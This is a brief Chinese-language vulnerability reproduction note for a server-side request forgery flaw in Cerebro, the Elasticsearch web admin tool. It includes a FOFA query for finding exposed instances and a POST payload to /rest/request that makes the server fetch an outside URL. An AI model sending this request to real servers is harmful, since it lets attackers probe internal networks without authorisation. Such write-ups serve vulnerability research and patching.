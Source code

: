 # Cerebro request SSRF漏洞

## 漏洞描述

Cerebro是使用Scala、Play Framework、AngularJS和Bootstrap构建的开源的基于Elasticsearch Web可视化管理工具。您可以通过Cerebro对集群进行web可视化管理，如执行rest请求、修改Elasticsearch配置、监控实时的磁盘，集群负载，内存使用率等。其中某功能存在SSRF漏洞，攻击者通过发送特定的请求包可以探测内网信息

## 漏洞影响

```
Cerebro
```

## FOFA

```
app="Cerebro"
```

## 漏洞复现

主页面

![image-20220524143249335](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241432380.png)

发送请求包

```
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241433022.png)
